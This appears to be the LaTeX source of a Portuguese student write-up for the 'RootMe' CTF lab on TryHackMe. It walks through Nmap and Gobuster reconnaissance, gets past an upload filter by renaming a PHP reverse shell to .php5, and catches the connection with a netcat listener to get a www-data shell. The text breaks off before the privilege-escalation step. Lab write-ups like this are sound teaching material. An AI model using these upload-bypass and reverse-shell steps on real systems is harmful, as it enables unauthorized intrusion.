%==============================================================================
% Write-Up de CTF - RootMe (TryHackMe)
% Materia : CIC0087 - Topicos Avancados em Computadores - Turma 04 - 2026/2
% Depto.  : Departamento de Ciencias da Computacao
% Baseado na "Metodologia para Construcao de Write-Ups em CTF"
%
% Compilacao:  pdflatex main.tex   (rodar 2x para atualizar o Sumario)
%==============================================================================
\documentclass[12pt,a4paper]{article}

%------------------------- Codificacao e idioma -------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}

%------------------------- Fonte Times New Roman ------------------------------
\usepackage{newtxtext}   % corpo em Times
\usepackage{newtxmath}   % matematica em Times

%------------------------- Margens (minimo 2 cm) ------------------------------
\usepackage[a4paper,margin=2cm,headheight=15pt,includehead,includefoot]{geometry}

%------------------------- Utilitarios ----------------------------------------
\usepackage{graphicx}
\graphicspath{{img/}{./img/}}
\usepackage{xcolor}
\usepackage{float}
\usepackage[hidelinks]{hyperref}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage[most]{tcolorbox}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{setspace}

\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=blue!60!black,
  citecolor=black
}
\onehalfspacing

%============================= METADADOS =======================================
\newcommand{\desafioNome}{RootMe}
\newcommand{\plataforma}{TryHackMe}
\newcommand{\dificuldade}{Fácil}
\newcommand{\dataResolucao}{20/08/2026}
\newcommand{\autorNome}{Luís Eduardo Curi Serra}

% Dados academicos (fixos para a disciplina)
\newcommand{\materia}{CIC0087 -- Tópicos Avançados em Computadores -- Turma 04 -- 2026/2}
\newcommand{\departamento}{Departamento de Ciências da Computação}
\newcommand{\matricula}{251033574}
\newcommand{\professor}{Roberto Rodrigues Filho}
\newcommand{\universidade}{Universidade de Brasília}
%===============================================================================

%------------------------- Cabecalho e rodape ---------------------------------
\pagestyle{fancy}
\fancyhf{}
\lhead{\small\itshape \desafioNome}
\rhead{\small\itshape \autorNome}
\lfoot{\small \materia}
\rfoot{\small Página \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

%------------------------- Estilo dos blocos de codigo ------------------------
\definecolor{codebg}{gray}{0.95}
\definecolor{codeframe}{gray}{0.75}
\definecolor{cmt}{RGB}{100,120,100}
\definecolor{kw}{RGB}{0,0,150}
\definecolor{str}{RGB}{150,50,50}

\lstdefinestyle{shell}{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  stringstyle=\color{str},
  frame=single,
  rulecolor=\color{codeframe},
  breaklines=true,
  breakatwhitespace=false,
  postbreak=\mbox{\textcolor{codeframe}{$\hookrightarrow$}\space},
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=2,
  captionpos=b,
  xleftmargin=0.4em,
  xrightmargin=0.4em,
  aboveskip=1em,
  belowskip=1em,
}
\lstset{style=shell}

% Atalho: comando de terminal em linha
\newcommand{\cmd}[1]{\lstinline[style=shell]|#1|}

% Ambiente para OUTPUT (fundo levemente diferente, fonte menor)
\lstdefinestyle{output}{
  style=shell,
  backgroundcolor=\color{gray!8},
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\ttfamily,
}

%===============================================================================
\begin{document}

%============================= 2.1 CAPA =========================================
\begin{titlepage}
  \thispagestyle{empty}
  \centering
  {\scshape \universidade \par}
  {\scshape \departamento \par}
  \vspace{0.4cm}
  {\small \materia \par}
  \vspace{2.5cm}

  \rule{\linewidth}{0.4pt}\par
  \vspace{0.6cm}
  {\huge \bfseries Write-Up: \desafioNome \par}
  \vspace{0.4cm}
  {\large Segurança Ofensiva --- Capture The Flag \par}
  \vspace{0.6cm}
  \rule{\linewidth}{0.4pt}\par

  \vspace{2.0cm}
  \begin{tabular}{rl}
    \textbf{Plataforma:}       & \plataforma       \\[4pt]
    \textbf{Dificuldade:}      & \dificuldade      \\[4pt]
    \textbf{Data de resolução:}& \dataResolucao    \\
  \end{tabular}

  \vfill

  \begin{tabular}{rl}
    \textbf{Autor:}     & \autorNome  \\[4pt]
    \textbf{Matrícula:} & \matricula  \\[4pt]
    \textbf{Professor:} & \professor  \\
  \end{tabular}

  \vspace{1.2cm}
  {\small \dataResolucao \par}
\end{titlepage}

%============================= 2.2 SUMARIO ======================================
\newpage
\tableofcontents
\thispagestyle{fancy}
\newpage

%============================= 2.3 VISAO GERAL ==================================
\section{Visão Geral}
\textbf{RootMe} é uma máquina Linux de dificuldade \emph{fácil} que expõe um
servidor web Apache. A superfície de ataque explorada é a aplicação web:
um painel de \emph{upload} sem validação adequada de tipo/extensão de arquivo
permite subir uma \emph{webshell} PHP, que é servida a partir de um diretório
público e executada, concedendo execução remota de código como o usuário
\texttt{www-data}. Em seguida, a enumeração local revela um
interpretador Python com bit \emph{SUID} habilitado, o que é abusado para
obter um \emph{shell} como \texttt{root}. O caminho geral foi:
reconhecimento (Nmap + Gobuster) $\rightarrow$ \emph{upload} de \emph{reverse
shell} $\rightarrow$ acesso como \texttt{www-data} $\rightarrow$ escalada via
progama com SUID $\rightarrow$ \texttt{root}.

%============================= 2.4 RECONHECIMENTO ===============================
\section{Reconhecimento}

\subsection{Varredura de portas}
A varredura inicial identifica quais serviços estão expostos e suas portas,
orientando as fases seguintes.

\begin{lstlisting}[language=bash,caption={Varredura de portas e serviços com Nmap.}]
nmap -T4 <TARGET_IP>
\end{lstlisting}

Apenas duas portas abertas: \textbf{22/tcp (SSH)} e \textbf{80/tcp (HTTP)}.
Sem credenciais, o SSH não é um vetor imediato, de modo que o foco recai sobre
o serviço web.

\begin{lstlisting}[style=output,caption={Portas abertas retornadas pela varredura.}]
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{1-nmap.png}
  \caption{Nmap contra o alvo: portas 22 (SSH) e 80 (HTTP) abertas.}
  \label{fig:nmap}
\end{figure}

\subsection{Enumeração do serviço web}
A navegação pela aplicação e a listagem de diretórios (habilitada no servidor)
revelam a versão exata do servidor: \textbf{Apache/2.4.41 (Ubuntu)}. A
listagem de diretórios ativa já é, em si, uma má configuração que facilita a
enumeração.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\linewidth]{3-apache.png}
  \caption{\emph{Directory listing} habilitado expondo a versão do servidor
  (Apache/2.4.41 -- Ubuntu) no rodapé.}
  \label{fig:apache}
\end{figure}

Para mapear diretórios não referenciados, foi executado o Gobuster com a
\emph{wordlist} \texttt{common.txt} padrão do próprio. \emph{Kali Linux}. 
O objetivo é descobrir pontos de entrada
ocultos (áreas administrativas, diretórios de \emph{upload}, etc.).

\begin{lstlisting}[language=bash,caption={Enumeração de diretórios com Gobuster.}]
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
\end{lstlisting}

Os achados relevantes são o diretório oculto \texttt{/panel} (formulário de
\emph{upload}) e \texttt{/uploads} (onde os arquivos enviados ficam
acessíveis publicamente) --- a combinação exata necessária para explorar
\emph{upload} irrestrito.

\begin{lstlisting}[style=output,caption={Diretórios encontrados (trecho relevante).}]
css            (Status: 301)
index.php      (Status: 200)
js             (Status: 301)
panel          (Status: 301)   <-- formulario de upload
uploads        (Status: 301)   <-- arquivos enviados (publico)
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{2-gobuster.png}
  \caption{Gobuster revelando os diretórios \texttt{/panel} e \texttt{/uploads}.}
  \label{fig:gobuster}
\end{figure}

%============================= 2.5 EXPLORACAO ===================================
\section{Exploração}

\subsection{Identificação da vulnerabilidade}
O diretório \texttt{/panel} apresenta um formulário ``\emph{Select a file to
upload}''. Testes de envio mostram que a aplicação \textbf{valida a extensão 
do arquivo php e bloqueia, mas permite o upload de php5} e armazena o resultado em
\texttt{/uploads}, que é servido diretamente pelo Apache. Como o servidor
interpreta arquivos PHP (inclusive a extensão alternativa \texttt{.php5}),
é possível enviar uma \emph{webshell} e obter execução remota de código.

\subsection{Payload / Exploit}
Foi utilizada a \emph{reverse shell} em PHP do \emph{pentestmonkey}, ajustando
o IP do atacante (obtido via \cmd{ifconfig}, interface \texttt{tun0}) e a porta
de escuta. O arquivo foi renomeado para \texttt{.php5} a fim de contornar o filtro 
sobre a extensão \texttt{.php}, mantendo a execução como PHP.

\begin{lstlisting}[language=bash,caption={Preparação do payload (comentado).}]
# Objetivo: obter uma reverse shell PHP no alvo.
# 1) Editar php-reverse-shell.php: $ip = <ATTACKER_IP>; $port = 1234;
# 2) Renomear para .php5 (executado como PHP e contorna filtro de extensao):
mv php-reverse-shell.php php-reverse-shell.php5
# 3) Enviar o arquivo pelo formulario em http://<TARGET_IP>/panel/
\end{lstlisting}

O envio pelo painel retorna a confirmação ``O arquivo foi upado com sucesso!'',
e o arquivo passa a estar disponível em \texttt{/uploads}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\linewidth]{6-upload-reverse-shell.png}
  \caption{\emph{Upload} da \emph{webshell} PHP aceito pelo painel \texttt{/panel}.}
  \label{fig:upload}
\end{figure}

\subsection{Confirmação de acesso}
Com um \emph{listener} Netcat ativo, basta acessar a \emph{webshell} em
\texttt{/uploads} para disparar a conexão reversa. O comando abaixo coloca a
máquina atacante à escuta na porta escolhida.

\begin{lstlisting}[language=bash,caption={Listener e disparo da reverse shell.}]
nc -l -v -n -p 1234
# Em seguida, abrir no navegador:
#   http://<TARGET_IP>/uploads/php-reverse-shell.php5
\end{lstlisting}

A conexão é recebida e obtém-se um \emph{shell} como \texttt{www-data}
(\texttt{uid=33}), confirmando a execução remota de código.

\begin{lstlisting}[style=output,caption={Shell recebido: contexto www-data.}]
connect to [<ATTACKER_IP>] from (UNKNOWN) [<TARGET_IP>]
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

\begin{figure}[H]
  \centering
